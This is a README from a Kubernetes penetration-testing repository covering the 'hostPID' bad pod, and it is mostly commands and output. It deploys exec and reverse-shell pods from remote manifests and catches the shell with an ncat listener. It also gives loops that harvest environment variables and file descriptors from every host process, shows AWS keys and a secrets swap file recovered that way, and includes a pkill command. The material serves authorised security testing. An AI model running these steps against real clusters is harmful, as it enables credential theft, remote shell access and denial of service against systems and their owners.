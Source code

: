 # Bad Pod #5: hostPID 
![](../../.github/images/Pod5.jpg)

There’s no clear path to get root on the node with only `hostPID`, but there are still some good post exploitation opportunities.  
*	**View processes on the host** – When you run ps from within a pod that has hostPID: true, you see all the processes running on the host, including processes running within each pod. 
*	**View the environment variables for each pod on the host** - With hostPID: true, you can read the /proc/[PID]/environ file for each process running on the host, including all processes running in pods. 
*	**View the file descriptors for each pod on the host** - With hostPID: true, you can read the /proc/[PID]/fd[X] for each process running on the host, including all of the processes running in pods. Some of these allow you to read files that are opened within pods. 
*	**Look for passwords, tokens, keys, etc.** – If you are lucky, you will find credentials and you’ll be able to use them to escalate privileges within the cluster, to escalate privileges services supported by the cluster, or to escalate privileges services that cluster-hosted applications are communicating with. It is a long shot, but you might find a Kubernetes service account token or some other authentication material that will allow you to access other namespaces and eventually escalate all the way up to cluster admin. 
*	**Kill processes** – You can also kill any process on the node (presenting a denial-of-service risk), but I would advise against it on a penetration test!

## Table of Contents
- [Bad Pod #5: hostPID](#bad-pod-5-hostpid)
  - [Table of Contents](#table-of-contents)
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post exploitation](#post-exploitation)
  - [View all processes running on the host and look for passwords, tokens, keys, etc.](#view-all-processes-running-on-the-host-and-look-for-passwords-tokens-keys-etc)
  - [View the environment variables for each pod on the host](#view-the-environment-variables-for-each-pod-on-the-host)
  - [View the file descriptors for each pod on the host](#view-the-file-descriptors-for-each-pod-on-the-host)
  - [Also, you can also kill any process, but don't do that in production :)](#also-you-can-also-kill-any-process-but-dont-do-that-in-production-)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/pod/hostpid-exec-pod.yaml
kubectl exec -it hostpid-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/[RESOURCE_TYPE]/hostpid-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostpid-exec-[RESOURCE_TYPE]      
kubectl exec -it hostpid-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe hostpid-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostpid/[RESOURCE_TYPE]/hostpid-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostpid/pod/hostpid-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/pod/hostpid-exec-pod.yaml
kubectl delete pod hostpid-exec-pod
kubectl delete cronjob hostpid-exec-cronjob
```

# Post exploitation

## View all processes running on the host and look for passwords, tokens, keys, etc. 
```bash
ps -aux
...omitted for brevity...
root     2123072  0.0  0.0   3732  2868 ?        Ss   21:00   0:00 /bin/bash -c while true; do ./my-program --grafana-uername=admin --grafana-password=admin; sleep 10;done
...omitted for brevity...
```
Check out that clear text password in the ps output below! 

## View the environment variables for each pod on the host
This lists the environ file for each process, and then uses xargs to split it up so that each environment variable is on it's own line:
```bash
for e in `ls /proc/*/environ`; do echo; echo $e; xargs -0 -L1 -a $e; done > envs.txt
```
Now it's time to look for interesting environment variables. 
```bash
root@hostpid-exec-pod:/# less procs.txt
...omitted for brevity...

/proc/578808/environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=envar-demo
NPM_CONFIG_LOGLEVEL=info
NODE_VERSION=4.4.2
DEMO_FAREWELL=Such a sweet sorrow
DEMO_GREETING=Hello from the environment
AWS_ACCESS_KEY_ID=AKIAIOSFODNN7EXAMPLE
AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
...omitted for brevity...
```
Oh look, an AWS IAM user key and secret! 

## View the file descriptors for each pod on the host
This lists out the file descriptors for each PID that we have access to.

```bash
for fd in `find /proc/*/fd`; do ls -al $fd/* 2>/dev/null | grep \>; done > fds.txt
```

Now it's time to look for interesting files. Oh look, a vim swp file!
```bash
less fds.txt
...omitted for brevity...
lrwx------ 1 root root 64 Jun 15 02:25 /proc/635813/fd/2 -> /dev/pts/0
lrwx------ 1 root root 64 Jun 15 02:25 /proc/635813/fd/4 -> /.secret.txt.swp
lrwx------ 1 root root 64 Jun 15 02:26 /proc/635975/fd/0 -> /dev/null
l-wx------ 1 root root 64 Jun 15 02:26 /proc/635975/fd/1 -> pipe:[65069205]
```

Let's see what's in `/.secret.txt.swp`. This file exists within a container, but we can access it by reading `/proc/635813/fd/4`!

```bash
cat /proc/635813/fd/4
3210#"! UtadBnnmAWS_ACCESS_KEY_ID=AKIAIOSFODNN7EXAMPLEAWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEYI'm going to keep my secrets in this file!
```
More secrets!


## Also, you can also kill any process, but don't do that in production :)
```
pkill -f "nginx" 
```

## Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# References and further reading: 
